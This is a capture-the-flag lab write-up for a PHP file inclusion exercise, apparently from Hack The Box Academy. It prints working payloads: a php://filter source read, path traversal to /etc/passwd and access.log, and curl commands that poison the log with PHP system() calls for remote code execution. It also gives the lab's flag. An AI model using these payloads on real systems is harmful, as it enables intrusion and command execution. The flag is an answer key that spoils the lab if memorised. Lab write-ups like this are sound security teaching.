






# Write-up: File Inclusion

| Vulnerability | Difficulty | Platform | Key concepts |
| :--- | :--- | :--- | :--- |
| File Inclusion | Medium | Hack The Box Academy | Local File Inclusion, Log Poisoning |

---

# Context

The company INLANEFREIGHT has contracted you to perform a web application assessment against one of their public-facing websites. They have been through many assessments in the past but have added some new functionality in a hurry and are particularly concerned about file inclusion/path traversal vulnerabilities.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application checking for file inclusion and path traversal vulnerabilities.

Find the vulnerabilities and submit a final flag using the skills we covered in the module sections to complete this module.

Don't forget to think outside the box!

# Exercise

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

# Process
## Step 1 "Search Vulnerable Parameter"

Navigating through the website I found that clicking in other sections it search for a page in the url parameters, so we can check if the parameter is vulnerable.


## Step 2 "Test parameter"
After several tries with different payloads I found this one, that allowed me to get the `index.php` file.
```
php://filter/convert.base64-encode/resource=index
```
This parameter will encode to base64 the entire file to void the server to execute it.


As we can see, we got the file in base64, so now we need to decode it and then analyse it to see if we found something.

## Step 3 "Analyzing index.php"
After decoding and analysing the file, I found a comment in the site naviation.
```PHP
<div class="col-12 col-md-10 d-none d-xl-block">
            <nav class="site-navigation position-relative text-right" role="navigation">

              <ul class="site-menu js-clone-nav mx-auto d-none d-lg-block">
                <li class="active"><a href="index.php">Home</a></li>
                <li><a href="index.php?page=about">About Us</a></li>
                <li><a href="index.php?page=industries">Industries</a></li>
                <li><a href="index.php?page=contact">Contact</a></li>
		<?php 
		  // echo '<li><a href="ilf_admin/index.php">Admin</a></li>'; 
		?>
              </ul>
            </nav>
          </div>
```
it shows a button that redirects user to another page `ilf_admin` that has the name of Admin, let's investigate that page.

## Step 4 "Navigating the Admin panel"
The page is indeed an admin panel, it has other different pages that we will need to navigate to see if there is another vulnerable parameter.


## Step 5 "Check log parameter"
After found a parameter, I fuzzed the value to find any payload that can show me that the parameter is vulnerable, the one that worked is this:
```
../../../../../../../../../../../etc/passwd
```
It shows the etc/passwd file.


## Step 6 "Reading access.log"
Since the `log` parameter is vulnerable, we can start checking for other file, in this case I will read the `access.log` with this payload and check for a possible log poisoning.
```
../../../../../../var/log/nginx/access.log
```


## Step 7 "Log Poisoning"
Now we need to inject php code with the `user-agent`, this way when we search for the `access.log` again, it will execute the php code.
```shell
curl -A "<?php system('ls /'); ?>" http://94.237.57.1:45810/
```


The php code was executed and we got the files from the root folder.

## Step 8 "Get the flag"
Now we need to inject another php command but to to read the `flag`.
```shell
curl -A "<?php system('cat /flag_dacc60f2348d.txt'); ?>" http://94.237.57.1:45810/
```


## Result
```
a9a892dbc9faf9a014f58e007721835e
```

# Conclusion
This assessment demonstrated how a seemingly simple file inclusion vulnerability can escalate into full remote code execution. By chaining techniques—initial discovery with php://filter, path traversal to access sensitive files, and log poisoning to execute arbitrary commands—it was possible to compromise the system and retrieve the final flag. The exercise highlights the critical importance of proper input validation, secure file handling, and log management in preventing real-world exploitation.
